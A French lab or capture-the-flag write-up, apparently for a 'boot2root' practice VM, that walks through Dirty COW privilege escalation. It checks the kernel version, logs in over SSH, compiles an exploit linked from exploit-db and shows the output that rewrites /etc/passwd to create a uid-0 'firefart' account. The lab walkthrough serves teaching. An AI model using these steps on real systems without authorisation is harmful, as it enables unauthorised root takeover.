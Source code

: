 # Dirty COW
## Introduction
Dirty COW est le nom donné faille de sécurité du noyau Linux. Elle va nous permettre une élévation de privilèges avec l'exécution d'un programme `C`.

## Compatibilité
Cette faille n'est exploitable qu'avec une version du noyau comprise entre `2.6.22` et `3.9`. On vérifie notre version du noyau avec :
```
> uname -r
3.2.0-91-generic-pae
```
Notre VM est compatible avec cette faille.

## Récupération et exécution du code
La faille étant assez connue, il est possible de récuperer facilement le code à exécuter. Nous utiliserons [celui ci](https://www.exploit-db.com/exploits/40839).

On se connecte en `ssh` à la VM. Tous les utilisateurs dans le sujets sont compatibles avec la faille.
```
> ssh -p 22 zaz@192.168.99.102
646da671ca01bb5d84dbb5fb2238dc8e
```
On créer un fichier `exploit.c` qui contient le code récupéré préalablement. On compile avec `gcc`. Certains flags sont necessaires :
```
gcc exploit.c -lpthread -lcrypt
```
En exécutant le `a.out` :
```
> ./a/out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiGIOrsN6mdSc:0:0:pwned:/root:/bin/bash

mmap: b7fda000
```

Le programme nous demande un mot de passe, on saisit le mot de passe de notre choix comme `125boot2root`.

Nous pouvons maintenant lancer la commande `su` et rentrer le mot de passe préalablement choisis.

Un `whoami` nous affichera l'utilisateur `firefart`. Son `id` est bien `0`, nous somme donc passé `root`.
```
> whoami
firefart
> id
uid=0(firefart) gid=0(root) groups=0(root)
```

## Comprendre la faille

Lorsqu'on fait un `cat /etc/passwd`, on obtient plusieurs lignes avec les différents users. Par exemple, pour l'utilisateur `lmezard` :
```
> cat /etc/passwd
[...]
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
[...]
```

`1001` est l'identifiant de l'utilisateur `lmezard`. Le `x` indique que son mot de passe est stocké dans un fichier. Lorsqu'on éxécute le script, le `x` va être remplacé par un hash du mot de passe saisis.
